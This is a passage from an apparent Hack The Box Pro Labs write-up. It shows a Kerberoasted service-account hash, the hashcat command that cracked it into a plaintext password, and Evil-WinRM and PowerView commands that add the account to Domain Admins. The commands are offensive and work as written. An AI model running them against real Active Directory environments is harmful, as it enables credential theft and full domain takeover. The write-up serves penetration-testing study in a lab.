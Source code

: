 ```bash
                       93C86DF38275E90EE0BD7AC0614A033EAE597BD8131129C091946D983B57401F5AA0FEF76628992129C6C2BA744F2BBA  
                       30477ABFEF70FF620619CBC20B60B9CB238216E33018EC972D6840896C65BACE07DDC87A4EB237108D6AD1E8BA4B13A0  
                       98E16FDA4616A95A5B13334DB5469C8898E7790FACC14EB33671E4BED7935D21ABF80DE28F3F902A96F59470F0C530C9  
                       D3EC61DF1CA62C8B708E7963C7ACB19424814C80C2791735B9CD7DFF5C770412C329C62D8655FDE7293C40F98D38AFCC  
                       10543A7ECF58F6AAC5A0E5B63B3106E124EF76B5062DB4E29732098EFC937347FB0076F3AEF047BC49D188A9BE6F5B38  
                       048AD94733B0FBF0245A337F5408A71FC2772C10B07DB4C85435949617200374F3961AEF56A2D4B929C22CE298EE9587  
                       7159EA68A7F3E596399FB645FFE9D57CA3D49C5E77C8568927A0EFDA0B4E0A04730EB7DB98E9B1F4FD2F93621BAD87B0 
                       7F41F2B09EA07C61AE2154AF9BB2076A2EA1C0857E2990E89103DFC81BB07D5A66541C849A3EFA2C9894CE5BE14CD9C3 
                       0D483FDFFC6CD13BFD35E2730A91396448E9A6BE611C156C5537765A4949FA9CF
SamAccountName       : p00_adm                                                     

DistinguishedName    : CN=p00_adm,CN=Users,DC=intranet,DC=poo                      

ServicePrincipalName : cyber_audit/intranet.poo:443                                

NULL                                                                               

NULL                                                                               

NULL                                                                               

NULL                                                                               

```

As seen above, we have two accounts with their hashes identified. We shall try to crack the hashes using hashcat as seen below.

```bash
 hashcat -m 13100 p00_adm /usr/share/wordlists/seclists/Passwords/Keyboard-Walks/Keyboard-Combinations.txt --force
 --force
...[snip]...
ZQ!5t4r
```

the hash for the admin is the one that was able to crack.  After getting the credentials, we shall use the newly found creds and add the p00_adm to  the admins group as shown below, after uploading the powerview script from [powersploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) onto the host machine.

```bash
*Evil-WinRM* PS C:\Temp> upload PowerView.ps1 .                                        
Info: Uploading /home/n00b/HTB Prolabs/P.O.O/web enum/PowerView.ps1 to C:\Temp\.
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1

// Here I have created a PSCredential object to add p00_adm to the admin groups domain.

*Evil-WinRM* PS C:\Temp> $pass = ConvertTo-SecureString 'ZQ!5t4r' -AsPlainText -Force
*Evil-WinRM* PS C:\Temp> $cred = New-Object System.Management.Automation.PSCredential('intranet.poo\p00_adm', $pass)
*Evil-WinRM* PS C:\Temp> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'p00_adm' -Credential $cred
```